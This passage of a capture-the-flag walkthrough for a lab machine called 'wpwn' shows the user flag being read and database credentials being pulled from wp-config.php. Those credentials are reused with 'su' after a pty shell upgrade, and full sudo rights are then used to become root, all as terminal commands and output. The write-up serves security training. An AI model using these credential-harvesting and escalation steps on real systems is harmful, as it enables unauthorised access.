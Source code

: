 ~~~
-rw-r--r-- 1 root  root    33 Aug 17 19:00 user.txt
www-data@wpwn:/home/takis$ cat user.txt
cat user.txt
04ebbbf5e6e298e8fab6deb92deb3a7f
~~~

# Root flag

## Lateral move (www-data -> takis)

Checking the Wordpress configuration file (`/var/www/html/wordpress/wp-config.php`) reveals the password to connect to the database. Below is the interesting extract:

```php
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress_db' );

/** MySQL database username */
define( 'DB_USER', 'wp_user' );

/** MySQL database password */
define( 'DB_PASSWORD', 'R3&]vzhHmMn9,:-5' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );
```

It turns our that takis' password is the same as the database password. Let's switch to `takis`:

~~~
www-data@wpwn:/var/www/html/wordpress/wp-admin$ python3 -c "import pty;pty.spawn('/bin/bash')"
<min$ python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@wpwn:/var/www/html/wordpress/wp-admin$ su takis
su takis
Password: R3&]vzhHmMn9,:-5

takis@wpwn:/var/www/html/wordpress/wp-admin$ id
id
uid=1000(takis) gid=1000(takis) groups=1000(takis),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
~~~

At this stage, it may be a good idea to connect over SSH directly to free up the reverse shell.

## Priv esc

Checking `takis`' privileges reveals that he can elevate to `root` via `sudo`:

~~~
takis@wpwn:~$ sudo -l
Matching Defaults entries for takis on wpwn:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User takis may run the following commands on wpwn:
    (ALL) NOPASSWD: ALL
takis@wpwn:~$ sudo -s
root@wpwn:/home/takis# id
uid=0(root) gid=0(root) groups=0(root)
~~~
